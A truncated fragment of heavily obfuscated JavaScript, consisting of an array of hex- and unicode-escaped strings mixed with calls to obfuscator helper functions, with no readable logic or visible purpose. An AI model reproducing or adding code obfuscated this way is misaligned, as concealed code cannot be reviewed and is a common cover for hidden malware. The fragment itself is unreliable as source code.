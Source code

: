 <h',scLZ44x(0x1c),'\x28\x36\x46\x61\x6b\x61\x52\x2c\x5e\x77\x36','\u007b\u003f\u006a\u006e\u0055\u005e\u002b\u007d\u0067\u0054\u0072','\u0063\u002f\u003f\u002e\u0065\u002e\u002a\u0026\u007b\u007c\u002f',scLZ44x(0x1d),'\u0026\u006b\u0023\u0029\u0033\u0031\u003e\u005a\u002b\u0030\u0068\u0024\u0026\u0041','\u0035\u0021\u004a\u0056\u0074\u0053\u004f\u0060\u0061\u003b\u004b\u004c\u006c\u002c\u002f\u0078','\u003d\u006f\u0047\u0059\u006b\u007b\u0026\u0040\u0047\u005a\u0051\u007c\u0035\u0061\u0047\u0072\u0036\u0077','SEMx/1tM_NkGOlP','\u003c\u003c\u0021\u003a\u004f\u002a\u0043\u007b\u0040','\x78\x78\x36\x2b\x29','\u002a\u0049\u0045\u0070','\u005f\u005a\u0059\u0031\u005e\u0052\u004c\u002f\u0025\u0058\u005d\u0062\u007c\u0079\u0036\u0054\u005d\u0029\u0022\u0070\u005a\u0030\u0062\u0060\u0078\u0069\u0046\u0045\u0069\u0050\u0074\u003f\u0074\u003d\u006c\u0030\u0031\u0074\u0038\u0060\u0032\u004f\u0021\u0044\u0045\u0050\u0061\u003f\u002c\u003a\u0026\u0077\u0026\u0077\u0055',LaGO_Z(-0x2a),scLZ44x(LaGO_Z(-0x29)),'\x30\x3f\x71\x58\x64\x7c\x2c\x30\x7d',scLZ44x(LaGO_Z(-0x35)),scLZ44x(0x15),'\u006b\u0070\u0078\u0053\u006a\u004b\u0021\u006d\u0079\u005e\u003e\u006e\u0067\u006e\u0041\u005f\u0067\u0048\u004d','\u0029\u0037\u0070\u0025\u007b\u002b\u0030\u007b\u0057\u0077\u0021\u0068\u0060\u006f\u002f\u002c\u0026\u0062\u0037\u0060\u0033',scLZ44x(LaGO_Z(-0x46)),'\u0046\u006b\u0037\u0070\u0075\u0074\u0044\u0046\u003c\u0076\u004f\u0043\u0032\u0034\u0022\u005f\u0042\u003c\u0048\u0077\u0079\u0035\u0034\u0046\u0061\u0076\u004c\u0062\u0073\u004c\u0023\u0036\u0044\u005e\u002b\u004d\u003d',scLZ44x(0x20),',6Fal+7iWw5tc','\x6a\x6a\x49\x30\x2a\x3e\x45\x72','\x36\x60\x6d\x6e\x2b\x59\x7d\x29\x7d','\u007e\u003f\u005b\u006e\u006e\u007c\u007a\u0029\u007d',scLZ44x(LaGO_Z(-0x38)),scLZ44x(0x22),LaGO_Z(-0x1b),'\u0032\u005e\u006d\u003c\u0062\u007d\u0073\u0059\u0026\u0061\u002f\u0061\u0060\u0029\u002b\u003f\u0045\u0078','\u002c\u005f\u0033\u0030\u004f\u0077\u007e\u0072','\x40\x49\x6f\x30\x45',scLZ44x(0x23),scLZ44x(LaGO_Z(0xb)),'\x49\x72\x33\x61\x60\x56\x66\x6f\x66\x30\x68\x5a\x22\x6d\x54',LaGO_Z(-0x42),'\u006d\u0078\u0065\u0025\u0034\u007c\u0074\u0079\u0025\u0077\u0063\u0056\u004c\u0038\u004a\u002c',scLZ44x(0x25),'\u0065\u002e\u0071\u006e\u004a\u004b\u005a\u0073\u0063\u0053\u0044','ajEp"y:Qjie;G',scLZ44x(0x26),scLZ44x(0x27),'\u0051\u0025\u007b\u0071\u006f\u0066\u0022\u0022\u0040\u0069\u003c\u0043\u004c\u0026\u004e','\u0051\u0025\u007b\u0071\u006f\u0066\u0022\u0022\u0077\u0061\u007b\u002c\u0023\u0079\u002f\u0029\u0057\u0079\u0065\u0030\u006f','\x2e\x35\x28\x6e\x21\x66\x78\x58\x4e\x30\x65\x3b\x3a\x3f\x57\x38\x7b\x7c\x2c\x6e\x29',scLZ44x(LaGO_Z(0xf)),scLZ44x(0x29),'\u003f\u004e\u006b\u0079\u004d\u004b\u007c\u007b\u006d\u005e\u0021\u0062\u0045\u0034\u0045\u0024\u0039\u0049\u002e\u0025\u0033','\u0077\u0073\u0038\u0053\u002c\u0077\u007e\u0072',scLZ44x(0x2a),scLZ44x(0x2b),scLZ44x(0x2c),'\x4a\x36\x2a\x7c\x42\x35\x2c\x7e\x44\x61\x32\x74\x3c',',[6+JKBs|Tr','\x69\x70\x2a\x5d\x22\x79\x48\x58\x41\x68',scLZ44x(LaGO_Z(-0x2)),LaGO_Z(-0x3d),scLZ44x(LaGO_Z(-0x34)),scLZ44x(0x1e),LaGO_Z(-0x45),'\u0066\u0049\u0079\u003e\u0061\u0074\u003f\u0072','\u005f\u005a\u0059\u0031\u005e\u0052\u004c\u002f\u0033\u005d\u0062\u0035\u005d\u007c\u0022\u005f\u0056\u0029\u0059\u003e\u005b\u003e\u0055','\x36\x50\x6b\x53\x28\x37\x3c\x75\x46','\u005f\u005a\u0059\u0031\u005e\u0052\u004c\u002f\u0033\u005d\u0062\u0035\u005d\u007c\u0022\u005f\u0056\u0029\u0059\u003e\u005b\u003e\u0054\u0074\u0030\u0043\u0032\u0077\u0025\u006e\u0061\u003f\u0073\u005a\u0068\u0030\u002b\u003e\u0072\u006b\u003c\u0076\u0056\u004f\u006e\u0051\u0023\u0073\u002e\u0029\u002a\u005d\u006e\u0039\u007a\u006d\u006d\u0058\u0025\u0063\u006a\u0024\u0046\u005f\u004f\u0067\u003e\u0079\u003b\u0073\u0023\u0073\u0037\u0070\u005f\u0044\u0053\u007a\u005f\u0068\u0063\u0063\u006c\u0025\u006d\u003f\u004e\u006b\u0041\u0031\u006c\u005d\u007b\u006a\u006e\u0024\u002f\u0042\u0022\u0053\u0054\u003c\u006f\u0068\u0045\u005d\u005b\u006b\u0079\u002c\u0033\u005e\u0044\u0032\u0047','\x2c\x36\x46\x61\x6c\x2b\x37\x69\x57\x77\x35\x74\x63','\x6a\x3c\x7b\x71\x78\x3e\x55\x58\x53\x5d\x64\x69\x31\x72\x31\x3d\x50\x6b\x7e\x58\x38\x28\x5d\x5e\x61\x63\x3c\x2e\x59\x5f\x71\x61\x64\x5d\x37\x6d\x2c\x78\x47\x5d\x52\x21\x49\x2e\x2c\x3d\x60\x73\x7e\x42\x36\x46\x2b\x4c\x67\x55\x43\x41\x46\x4b\x6b\x22\x73\x26\x73\x45\x49\x3d\x2f\x29\x5f\x4f\x6c\x25\x2e\x30\x77\x4b\x63\x5d\x33\x2e\x7a\x65\x3f\x6f\x2e\x5f\x69\x40\x5a\x78\x47\x5d\x52\x21\x49\x2e\x65\x63\x60\x73\x73\x3c\x2c\x4d\x68\x7a\x75\x5d\x23\x2c\x49\x43\x59\x52\x78\x54\x34\x24\x7d\x6e\x7a\x24\x6d\x4b\x69\x7d\x3a\x2e\x3d\x67\x3b\x73\x34\x73\x24\x3e\x5d\x73\x33\x36\x26\x58\x41\x4b\x50\x65\x48\x73\x2f\x4d\x49\x30\x53\x71\x5e\x47\x54\x70\x54\x35\x55',scLZ44x(LaGO_Z(0xa)),'\x78\x78\x71\x6e\x46\x5e\x65\x50',scLZ44x(LaGO_Z(-0x14)),'_ZY1^Rq53v`lqTT$&}M',LaGO_Z(-0x26),scLZ44x(LaGO_Z(-0x39)),'\u006a\u007a\u0028\u006e\u0070',scLZ44x(0x31),'\u0036\u0050\u0063\u0030\u006f\u003e\u007e\u0072',LaGO_Z(-0x41),'\x48\x26\x56\x79\x53\x79\x42\x72','\u0031\u0044\u0023\u004b\u004b\u0039\u0054\u004f\u0038\u0054\u007a\u0071\u0063','IM46qL`9?,k:(&36QIRmII"75LXHfRp',scLZ44x(0x32),scLZ44x(LaGO_Z(0x10)),scLZ44x(LaGO_Z(-0x1d)),LaGO_Z(-0x2c),'\x52\x49\x67\x6f\x66\x4d\x3c',scLZ44x(LaGO_Z(-0x2d)),'\u005f\u005a\u0059\u0031\u005e\u0052\u004c\u002f\u0033\u005d\u006a\u0039\u0075\u007c\u0065\u003f\u002c\u003a\u003e\u005d\u0039\u0035\u005d\u006d\u0053\u005d\u006a\u0039\u0051\u0034\u0060\u0065\u004c\u0029\u006c\u0058\u0050\u0074\u0068\u0052\u0067\u004e\u0030\u0060\u0078\u003d\u005a\u0036\u003f\u0076\u006c\u0041\u0026\u005d\u0072\u007b\u0038\u004c\u005e\u0033\u007e\u006f\u007a\u0071\u0059\u0025\u006f\u0049\u0072\u006c\u0073\u0037\u0071\u005a\u0024',scLZ44x(0x36),scLZ44x(0x37),LaGO_Z(-0x40),'\u003d\u0070\u0078\u0053\u006a\u004b\u007e\u0072','\u0044\u0024\u0054\u007a',LaGO_Z(-0x43),scLZ44x(0x38),'\u0032\u002e\u0055\u0040\u0077\u0039\u002f\u0075\u0076\u0061\u002a\u0066\u0054\u006a\u003d\u00